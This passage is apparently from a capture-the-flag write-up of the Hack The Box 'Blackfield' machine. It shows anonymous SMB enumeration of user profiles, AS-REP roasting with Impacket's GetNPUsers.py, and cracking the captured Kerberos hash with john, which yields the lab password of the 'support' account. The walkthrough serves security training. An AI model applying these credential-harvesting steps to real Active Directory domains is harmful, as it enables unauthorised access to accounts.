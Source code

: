 We can see that there are some interesting non-default shares, particularly `profiles$` and `forensic`, unfortunately access to `forensic` is denied, so let's see what we can get from `profiles$`

```bash
finlay@kali:~/htb/blackfield$ smbclient //10.10.10.192/profiles$ -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jun  3 12:47:12 2020
  ..                                  D        0  Wed Jun  3 12:47:12 2020
  AAlleni                             D        0  Wed Jun  3 12:47:11 2020
  ABarteski                           D        0  Wed Jun  3 12:47:11 2020
  ABekesz                             D        0  Wed Jun  3 12:47:11 2020
  ABenzies                            D        0  Wed Jun  3 12:47:11 2020
  ...
  ZKrenselewski                       D        0  Wed Jun  3 12:47:12 2020
  ZMalaab                             D        0  Wed Jun  3 12:47:12 2020
  ZMiick                              D        0  Wed Jun  3 12:47:12 2020
  ZScozzari                           D        0  Wed Jun  3 12:47:12 2020
  ZTimofeeff                          D        0  Wed Jun  3 12:47:12 2020
  ZWausik                             D        0  Wed Jun  3 12:47:12 2020

                7846143 blocks of size 4096. 4005831 blocks available
  ```
We can copy the output to a file and use `cut` to trim the end off.

```bash
cut -b 3-15 list.txt > users.txt
```

# Exploitation

## GetNPUsers

Now that we have a list of potential users, we can use [Impacket's](https://github.com/SecureAuthCorp/impacket) GetNPUsers.py to find which users are in the Active Directory and to get TGTs.

I ran the command with `-format john` so that I could crack the hash with john.

```bash
finlay@kali:~/htb/blackfield$ GetNPUsers.py blackfield.local/ -usersfile users.txt -outputfile hash.txt -format john
[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```

We can now crack the password with john.

```bash
finlay@kali:~/htb/blackfield$ cat hash.txt
$krb5asrep$support@BLACKFIELD.LOCAL:fee2dbb84b0285be0f1648b29d603b2b$4c40512b38b943b55f9ee8e1b3a682227d0606e2b481cf458c67002eaedd8538ccf10e08990264ebb0ef8e362f73b4a8b08b904f8d53a14ea9497c465143a5d56f9c5c9715ca5437c36684f800fa8caf6c77550d10a890fe4ac7a2a9f2dc1987c9365e7b52d56f70c10a5e68c72b36db6fc73bf93977f2a4ef5f39ca24a4db0802d4786bfc322bf0d6f5c5aa20a923c8e347f9894f9f0ea6320342f14b46137bbbb5a11e67bd6280576f5bcf6863e4f054a725ebee21bc888d859907fdcf2e29a891973619bb42cd7c7a13ed09e9564ea6d7bf5f149b5021513c5d51abbcc9a5333cf01b62e8a9ceb41e8228cfdfd2e8ad4ab452
finlay@kali:~/htb/blackfield$ john hash.txt -wordlist=/usr/share/wordlists/rockyou.txt
finlay@kali:~/htb/blackfield$ john --show hash.txt
$krb5asrep$support@BLACKFIELD.LOCAL:#00^BlackKnight
```
